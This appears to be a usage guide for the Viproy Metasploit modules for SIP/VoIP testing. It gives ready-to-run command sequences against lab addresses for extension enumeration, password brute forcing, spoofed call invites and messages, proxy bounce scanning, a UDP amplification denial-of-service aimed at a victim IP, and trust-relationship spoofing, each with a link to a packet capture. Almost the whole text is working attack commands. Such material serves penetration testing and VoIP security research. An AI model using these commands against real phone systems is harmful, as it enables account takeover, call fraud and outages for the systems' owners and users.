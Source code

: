 #SIP Modules Usage

##Register 

use auxiliary/voip/viproy_sip_register <br>
set RHOSTS 192.168.1.222 <br>
set USERNAME 201<br>
set FROM 201<br>
set PASSWORD password123<br>
set PROTO TCP<br>
set LOGIN true<br>
set DEBUG true<br>
set VERBOSE true <br>
run<br><br>

http://www.viproy.com/captures/sip_register.pcapng<br>

##Options 

use auxiliary/voip/viproy_sip_options <br>
set RHOSTS 192.168.1.221-222<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br><br>

http://www.viproy.com/captures/sip_options.pcapng<br>

##Negotiate 

use auxiliary/voip/viproy_sip_negotiate <br>
set RHOSTS 192.168.1.221-222<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br><br>

http://www.viproy.com/captures/sip_negotiate.pcapng<br>

##Subscribe 

use auxiliary/voip/viproy_sip_subscribe<br>
set RHOST 192.168.1.221<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br><br>

http://www.viproy.com/captures/sip_subscribe.pcapng<br>

##Enumerate 

use auxiliary/voip/viproy_sip_enumerate <br>
set RHOST 192.168.1.221<br>
set NUMERIC_USERS true<br>
set NUMERIC_MIN 100<br>
set NUMERIC_MAX 210<br>
set VERBOSE false<br>
run<br><br>

http://www.viproy.com/captures/sip_enumerate.pcapng<br>


##Brute Force 

use auxiliary/voip/viproy_sip_bruteforce <br>
set RHOST 192.168.1.221<br>
set NUMERIC_USERS true<br>
set NUMERIC_MIN 101<br>
set NUMERIC_MAX 102<br>
set PASSWORD letmein123<br>
set VERBOSE true<br>
set DEBUG true<br>
run<br><br>

http://www.viproy.com/captures/sip_bruteforce.pcapng<br>

##Invite

use auxiliary/voip/viproy_sip_invite <br>
show options <br>
set CPORT 5075<br>
set RHOST 192.168.1.222<br>
set FROM 203<br>
set TO 201<br>
set DEBUG true<br>
set VERBOSE true<br>
set LOGIN true<br>
set PASSWORD test12345<br>
set USERNAME 203<br>
run<br><br>

http://www.viproy.com/captures/sip_invite.pcapng<br>

##Message

use auxiliary/voip/viproy_sip_message<br>
show options <br>
set RHOST 192.168.1.222<br>
set FROM 203<br>
set TO 201<br>
set USERNAME 203<br>
set LOGIN true<br>
set MESSAGE_CONTENT test<br>
set PASSWORD test12345<br>
run<br><br>

http://www.viproy.com/captures/sip_message.pcapng<br>

##Proxy Bounce Scan

use auxiliary/voip/viproy_sip_proxybouncescan <br>
show options <br>
set CPORT 5089<br>
set RHOSTS 192.168.1.220-225<br>
set RPORTS 5060-5070<br>
set SIP_SERVER_IP 192.168.1.222<br>
set SIP_SERVER_PORT 5060<br>
run<br><br>

http://www.viproy.com/captures/sip_proxybouncescan.pcapng<br>

##UDP Amplification DOS

use auxiliary/voip/viproy_sip_udpampdos <br>
set SIP_SERVERS 192.168.1.221<br>
set VICTIM_IP 192.168.1.222<br>
set VICTIM_PORT 5098<br>
set INTERFACE en5<br>
show options <br>
run<br><br>

http://www.viproy.com/captures/sip_udpampdos.pcapng<br>

##UDP Trust Hacking

use auxiliary/voip/viproy_sip_trusthacking <br>
set SRC_RHOSTS 192.168.1.220-225<br>
set SIP_SERVER 192.168.1.222<br>
set THREADS 5<br>
set INTERFACE eth0<br>
run<br><br>

http://www.viproy.com/captures/sip_trusthacking.pcapng<br>

